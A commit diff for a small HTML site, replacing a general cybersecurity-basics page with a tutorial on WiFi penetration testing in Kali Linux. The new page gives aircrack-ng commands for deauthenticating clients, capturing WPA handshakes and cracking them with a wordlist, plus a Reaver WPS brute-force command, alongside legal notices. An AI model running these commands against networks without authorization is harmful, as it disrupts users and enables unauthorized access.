

Before and after one commit to Ahmad81108/Hacker-360, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 2188 px of the page at 65% size. Before the commit the page ends 1827 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -3,219 +3,222 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1" />
-  <title>Cybersecurity Essentials</title>
+  <title>Ethical WiFi Penetration Testing with Kali Linux</title>
   <style>
-    /* Reset and basics */
-    * {
+    @import url('https://fonts.googleapis.com/css2?family=Poppins:wght@400;700&display=swap');
+    body {
       margin: 0;
-      padding: 0;
-      box-sizing: border-box;
-    }
-    body {
-      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+      background: #121212;
+      color: #e0e0e0;
+      font-family: 'Poppins', sans-serif;
       line-height: 1.6;
-      background: linear-gradient(135deg, #1f1c2c, #928dab);
-      color: #f0f0f5;
-      min-height: 100vh;
       display: flex;
       flex-direction: column;
+      min-height: 100vh;
     }
     header {
-      background: rgba(34, 40, 49, 0.85);
-      padding: 1.5rem 2rem;
-      box-shadow: 0 2px 8px rgba(0,0,0,0.7);
-      position: sticky;
-      top: 0;
-      z-index: 1000;
+      background: linear-gradient(90deg, #0077ff 0%, #00d2ff 100%);
+      padding: 2rem 1rem;
+      text-align: center;
+      box-shadow: 0 5px 10px rgba(0,123,255,0.5);
     }
     header h1 {
+      margin: 0;
       font-weight: 700;
-      font-size: 2rem;
-      color: #FFD369;
-      letter-spacing: 2px;
+      font-size: 2.5rem;
+      color: #fff;
+      text-shadow: 0 0 8px rgba(0,255,255,0.7);
     }
-    nav {
-      margin-top: 0.5rem;
-      display: flex;
-      gap: 1.5rem;
+    main {
+      flex: 1;
+      max-width: 960px;
+      margin: 2rem auto;
+      padding: 0 1rem;
     }
-    nav a {
-      color: #cfcfd1;
+    section {
+      background: #1e1e1e;
+      border-radius: 10px;
+      padding: 2rem 2.5rem;
+      margin-bottom: 2.5rem;
+      box-shadow: 0 4px 20px rgba(0,0,0,0.5);
+      transition: transform 0.3s ease;
+    }
+    section:hover {
+      transform: translateY(-5px);
+      box-shadow: 0 12px 35px rgba(0,123,255,0.9);
+    }
+    h2 {
+      color: #00d2ff;
+      margin-bottom: 1rem;
+      font-weight: 700;
+      border-bottom: 3px solid #0077ff;
+      padding-bottom: 0.3rem;
+      font-size: 1.9rem;
+      text-shadow: 0 0 5px #00d2ff;
+    }
+    p {
+      margin-bottom: 1.2rem;
+      color: #ccc;
+      font-size: 1.05rem;
+    }
+    ul, ol {
+      margin-left: 1.4rem;
+      margin-bottom: 1.5rem;
+      color: #bbb;
+      font-size: 1.05rem;
+    }
+    li {
+      margin-bottom: 0.7rem;
+    }
+    code {
+      background: #272727;
+      color: #00ffcc;
+      padding: 0.15rem 0.4rem;
+      border-radius: 4px;
+      font-family: 'Source Code Pro', monospace, monospace;
+      font-size: 0.95rem;
+    }
+    pre {
+      background: #222;
+      padding: 1rem 1.2rem;
+      overflow-x: auto;
+      border-radius: 10px;
+      color: #00ffcc;
+      font-family: 'Source Code Pro', monospace, monospace;
+      font-size: 0.95rem;
+      line-height: 1.4;
+      margin-bottom: 1.5rem;
+      box-shadow: inset 0 0 15px #00d2ff80;
+    }
+    footer {
+      background: #111;
+      padding: 1rem 1rem;
+      text-align: center;
+      font-size: 0.9rem;
+      color: #666;
+      user-select: none;
+    }
+    a {
+      color: #00bfff;
       text-decoration: none;
       font-weight: 600;
-      transition: color 0.3s ease;
-      font-size: 1.1rem;
-      padding-bottom: 2px;
-      border-bottom: 2px solid transparent;
     }
-    nav a:hover,
-    nav a.active {
-      color: #FFD369;
-      border-bottom-color: #FFD369;
+    a:hover {
+      text-decoration: underline;
     }
-
+    @media (max-width: 700px) {
       main {
-      padding: 2rem;
-      flex-grow: 1;
-      max-width: 1000px;
-      margin: 0 auto;
+        margin: 1rem;
+        padding: 0 0.8rem;
       }
-
+      header h1 {
+        font-size: 1.8rem;
+      }
       section {
-      background: rgba(255, 255, 255, 0.1);
-      border-radius: 12px;
-      padding: 2rem 2.5rem;
-      margin-bottom: 2.5rem;
-      box-shadow: 0 8px 24px rgba(0,0,0,0.4);
+        padding: 1.6rem 1.5rem;
       }
-    section h2 {
-      color: #FFD369;
-      margin-bottom: 1rem;
-      font-size: 2rem;
-      letter-spacing: 1px;
-      border-bottom: 2px solid #FFD369;
-      padding-bottom: 0.3rem;
-    }
-
-    ul {
-      margin-top: 1rem;
-      margin-left: 1.25rem;
-      list-style-type: disc;
-    }
-    ul li {
-      margin-bottom: 0.75rem;
-      font-size: 1.1rem;
-    }
-
-    /* Footer */
-    footer {
-      background: rgba(34, 40, 49, 0.85);
-      padding: 1rem 2rem;
-      text-align: center;
-      color: #bbb;
-      font-size: 0.9rem;
-      user-select: none;
-      box-shadow: 0 -2px 8px rgba(0,0,0,0.7);
-    }
-
-    /* Responsive */
-    @media (max-width: 600px) {
-      header h1 {
+      h2 {
         font-size: 1.5rem;
       }
-      nav {
-        flex-direction: column;
-      }
-      nav a {
-        font-size: 1rem;
-        padding: 0.3rem 0;
-      }
-      main {
-        padding: 1rem;
-      }
-      section {
-        padding: 1.5rem 1.75rem;
+      code, pre {
+        font-size: 0.85rem;
       }
     }
-
   </style>
 </head>
 <body>
-
   <header>
-  <h1>Cybersecurity Essentials</h1>
-  <nav>
-    <a href="#intro" class="active">Introduction</a>
-    <a href="#threats">Common Threats</a>
-    <a href="#best-practices">Best Practices</a>
-    <a href="#resources">Resources</a>
-  </nav>
+    <h1>Ethical WiFi Penetration Testing with Kali Linux</h1>
   </header>
-
   <main>
-  <section id="intro" tabindex="0">
-    <h2>What is Cybersecurity?</h2>
+    <section>
+      <h2>Introduction</h2>
       <p>
-      Cybersecurity involves protecting computer systems, networks, and data from digital attacks, theft, or damage.
-      It encompasses technologies, processes, and practices designed to safeguard devices, information, and services from unauthorized access and cyber threats.
+        Kali Linux offers an extensive set of tools for penetration testing and cybersecurity research. Among its capabilities, it provides utilities to analyze and test the security of WiFi networks. This website outlines an overview of the tools and commands used in ethical WiFi penetration testing.
       </p>
+      <p>Always ensure you have explicit permission before testing any networks. Unauthorized attempts to access networks are illegal.</p>
     </section>
-
-  <section id="threats" tabindex="0">
-    <h2>Common Cybersecurity Threats</h2>
+    <section>
+      <h2>WiFi Security Protocols</h2>
+      <p>Understanding the common WiFi encryption types is essential for assessing vulnerabilities:</p>
       <ul>
-      <li><strong>Malware:</strong> Malicious software like viruses, trojans, ransomware, designed to damage or disrupt systems.</li>
-      <li><strong>Phishing:</strong> Fraudulent attempts to obtain sensitive info by pretending to be trustworthy via email or websites.</li>
-      <li><strong>Man-in-the-Middle (MitM) attacks:</strong> Attackers intercept communication between users and systems.</li>
-      <li><strong>Denial of Service (DoS):</strong> Overwhelming a system to make it unavailable to legitimate users.</li>
-      <li><strong>Password Attacks:</strong> Attempts to steal or guess passwords to gain unauthorized access.</li>
-      <li><strong>Zero-Day Exploits:</strong> Attacks that target vulnerabilities before developers have fixed them.</li>
+        <li><strong>WEP:</strong> An outdated protocol, easily compromised.</li>
+        <li><strong>WPA/WPA2:</strong> Widely used; security depends on password strength.</li>
+        <li><strong>WPA3:</strong> Most secure; significantly more challenging to crack.</li>
       </ul>
     </section>
+    <section>
+      <h2>Common Kali Linux Tools & Commands for WiFi Testing</h2>
+      <p>The following tools form the core toolkit for WiFi penetration testing:</p>
+      <ul>
+        <li><strong>airmon-ng:</strong> Enables monitor mode on your wireless interface.</li>
+        <li><strong>airodump-ng:</strong> Captures WiFi packets and collects information about access points and clients.</li>
+        <li><strong>aireplay-ng:</strong> Performs packet injection and various attacks (deauthentication, fake authentication).</li>
+        <li><strong>aircrack-ng:</strong> Cracks WEP and WPA-PSK keys using captured packets.</li>
+        <li><strong>reaver:</strong> Exploits WPS vulnerabilities to recover WPA/WPA2 passphrases.</li>
+      </ul>
+      <p>Example commands:</p>
+      <pre><code># 1. Enable monitor mode on interface wlan0
+sudo airmon-ng start wlan0
 
-  <section id="best-practices" tabindex="0">
-    <h2>Best Practices to Stay Secure</h2>
-    <ul>
-      <li>Use strong, unique passwords and enable multi-factor authentication (MFA) wherever possible.</li>
-      <li>Keep software and systems up to date with security patches.</li>
-      <li>Be cautious with email attachments and links from unknown sources.</li>
-      <li>Regularly backup important data and verify the backups.</li>
-      <li>Use trusted security software, such as antivirus and firewalls.</li>
-      <li>Educate yourself and your team on recognizing cyber threats and phishing attempts.</li>
-      <li>Use secure networks and avoid public Wi-Fi for sensitive transactions.</li>
-    </ul>
+# 2. Scan and capture packets on a specific channel (e.g., channel 6)
+sudo airodump-ng wlan0mon --channel 6 --write capture
+
+# 3. Send deauthentication packets to disconnect clients (to capture handshake)
+sudo aireplay-ng --deauth 10 -a [AP_MAC] wlan0mon
+
+# 4. Crack WPA handshake with wordlist
+sudo aircrack-ng capture-01.cap -w /path/to/wordlist.txt
+
+# 5. Stop monitor mode
+sudo airmon-ng stop wlan0mon
+</code></pre>
     </section>
-
-  <section id="resources" tabindex="0">
-    <h2>Additional Resources</h2>
-    <p>Expand your knowledge and stay updated with these trusted cybersecurity resources:</p>
-    <ul>
-      <li><a href="https://www.cisa.gov/cybersecurity" target="_blank" rel="noopener noreferrer" style="color:#FFD369;">CISA - Cybersecurity</a></li>
-      <li><a href="https://www.us-cert.gov/" target="_blank" rel="noopener noreferrer" style="color:#FFD369;">US-CERT</a></li>
-      <li><a href="https://www.cybrary.it/" target="_blank" rel="noopener noreferrer" style="color:#FFD369;">Cybrary - Training</a></li>
-      <li><a href="https://www.kaspersky.com/resource-center/definitions/what-is-cybersecurity" target="_blank" rel="noopener noreferrer" style="color:#FFD369;">Kaspersky Cybersecurity Guide</a></li>
-    </ul>
+    <section>
+      <h2>Step-by-Step Example Workflow</h2>
+      <ol>
+        <li><strong>Set up monitor mode:</strong> Put your wireless card into monitor mode to listen to all traffic.
+          <pre><code>sudo airmon-ng start wlan0</code></pre>
+        </li>
+        <li><strong>Identify target network:</strong> Use airodump-ng to scan channels and capture data.
+          <pre><code>sudo airodump-ng wlan0mon</code></pre>
+          Note down the target network's BSSID and channel.
+        </li>
+        <li><strong>Focus capture on target:</strong>
+          <pre><code>sudo airodump-ng --bssid [TARGET_BSSID] --channel [CHANNEL] --write capture wlan0mon</code></pre>
+        </li>
+        <li><strong>Deauthenticate clients:</strong> To capture WPA handshake, force clients to reconnect.
+          <pre><code>sudo aireplay-ng --deauth 10 -a [TARGET_BSSID] wlan0mon</code></pre>
+        </li>
+        <li><strong>Crack captured handshake:</strong> Using a wordlist such as <code>rockyou.txt</code>.
+          <pre><code>sudo aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt</code></pre>
+        </li>
+        <li><strong>Disable monitor mode:</strong>
+          <pre><code>sudo airmon-ng stop wlan0mon</code></pre>
+        </li>
+      </ol>
+    </section>
+    <section>
+      <h2>WPS Attack with Reaver</h2>
+      <p>WPS (Wi-Fi Protected Setup) can be vulnerable to brute force attacks:</p>
+      <pre><code>sudo airmon-ng start wlan0
+sudo airodump-ng wlan0mon
+sudo reaver -i wlan0mon -b [TARGET_BSSID] -vv</code></pre>
+      <p>Use with caution and only on authorized networks. Reaver attempts to retrieve the WiFi password by exploiting WPS vulnerabilities.</p>
+    </section>
+    <section>
+      <h2>Important Legal & Ethical Notice</h2>
+      <p>
+        Penetration testing must be authorized by the network owner. Attempting to access or crack networks without permission is illegal and punishable by law in most countries.
+      </p>
+      <p>
+        Use these techniques strictly for educational purposes or on your own networks. Always respect privacy, data protection laws, and professional ethical guidelines.
+      </p>
+      <p>For formal ethical hacking training, consider certifications such as <a href="https://www.eccouncil.org/programs/certified-ethical-hacker-ceh/" target="_blank" rel="noopener noreferrer">Certified Ethical Hacker (CEH)</a>.</p>
     </section>
   </main>
-
   <footer>
-  &copy; 2024 Cybersecurity Essentials. Stay safe online!
+    &copy; 2024 Ethical WiFi Penetration Testing Guide. Use responsibly and legally.
   </footer>
-
-<script>
-  // Smooth scrolling for nav links
-  document.querySelectorAll('nav a').forEach(anchor => {
-    anchor.addEventListener('click', function(e) {
-      e.preventDefault();
-      document.querySelectorAll('nav a').forEach(a => a.classList.remove('active'));
-      this.classList.add('active');
-      document.querySelector(this.getAttribute('href')).scrollIntoView({
-        behavior: 'smooth'
-      });
-    });
-  });
-
-  // Highlight nav on scroll
-  const sections = document.querySelectorAll('main section');
-  const navLinks = document.querySelectorAll('nav a');
-
-  window.addEventListener('scroll', () => {
-    let current = '';
-    sections.forEach(section => {
-      const sectionTop = section.offsetTop - 80;
-      if (pageYOffset >= sectionTop) {
-        current = section.getAttribute('id');
-      }
-    });
-
-    navLinks.forEach(link => {
-      link.classList.remove('active');
-      if (link.getAttribute('href') === '#' + current) {
-        link.classList.add('active');
-      }
-    });
-  });
-</script>
-
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
